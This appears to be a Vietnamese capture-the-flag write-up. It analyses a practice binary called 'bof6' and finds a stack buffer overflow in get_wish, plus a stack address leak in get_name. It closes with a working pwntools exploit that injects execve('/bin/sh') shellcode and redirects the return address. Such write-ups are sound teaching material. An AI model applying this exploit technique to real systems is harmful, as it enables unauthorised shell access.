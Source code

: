 **1. Tìm lỗi**

Dùng lệnh file kiểm tra

![file.png](photo/file.png)

là file elf 64bit -> mở bằng ida64 ta có hàm main như sau:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+8h] [rbp-8h] BYREF
  int v5; // [rsp+Ch] [rbp-4h]

  v5 = 0;
  init(argc, argv, envp);
  while ( !v5 )
  {
    puts("Welcome to christmas gifting system");
    puts("1. Enter your name");
    puts("2. Send a wish");
    puts("3. Exit");
    printf("> ");
    __isoc99_scanf("%d", &v4);
    if ( v4 == 1 )
    {
      get_name();
    }
    else if ( v4 == 2 )
    {
      get_wish();
    }
    else
    {
      v5 = 1;
    }
  }
  return 0;
}
```

Hàm get_name():

```
int get_name()
{
  char buf[80]; // [rsp+0h] [rbp-50h] BYREF

  puts("What's your name?");
  printf("> ");
  read(0, buf, 0x50uLL);
  printf("Hello %sI have a message from santa:\n", buf);
  puts("----------------------------------------------------------");
  puts(
    "| Due to your good behavior, I will give you a wish.     |\n"
    "| You can wish for anything you want and I will give you |\n"
    "| that as a gift for being a good boy!                   |");
  return puts("----------------------------------------------------------");
}
```

Hàm get_wish():

```
ssize_t get_wish()
{
  char buf[512]; // [rsp+0h] [rbp-200h] BYREF

  puts("What do you want for christmas?");
  printf("> ");
  return read(0, buf, 0x220uLL);
}
```

Ở hàm get_wish ta có biến buf được khai báo 512 byte nhưng chương trình cho phép nhập 0x220 = 544 byte -> có lỗi bof

Dùng lệnh checksec kiểm tra

![checksec.png](photo/checksec.png)

Ta thấy NX đang disabled nên có thể khai thác bằng shellcode

**2. Ý tưởng**

Đi vào hàm get_name để lấy địa chỉ stack để ghi shellcode. Tiếp tục đi vào hàm get_wish lợi dụng lỗ hổng bof để ghi shellcode vào

**3. Viết script**

```
from pwn import *

r = process("./bof6")

#input()
#Leak stack
r.sendlineafter('> ', b'1')
r.sendafter('> ', b'a'*0x50)
r.recvuntil(b'a'*0x50)
stack_leak = u64(r.recv(6) + b'\x00\x00')
print(hex(stack_leak))

shellcode = asm(
    '''
    mov rax, 0x3b
    mov rdi, 29400045130965551
    push rdi
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
    ''', arch='amd64')
payload = shellcode
payload = payload.ljust(536 - 16)
payload += p64(stack_leak - 0x220)
r.sendlineafter('> ', b'2')
#input()
r.sendafter('> ', payload)

r.interactive()
```
